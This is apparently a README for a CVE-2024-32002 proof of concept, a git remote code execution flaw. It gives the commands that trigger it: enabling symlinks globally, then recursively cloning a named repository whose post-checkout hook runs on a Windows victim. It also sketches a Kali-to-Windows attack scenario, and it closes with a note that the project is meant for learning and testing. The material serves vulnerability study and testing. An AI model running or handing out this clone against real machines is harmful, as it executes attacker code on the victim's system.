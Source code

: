 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```

# Attack Scenario
kali(192.168.216.129) --Give remote repository address--> Win(192.168.216.130)

kali(192.168.216.129) <--Git clone && hook script(post-checkout) execution-- Win(192.168.216.130)

# Warning
This repository is not intended to be git clone RCE exploit to CVE-2024-32002. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.
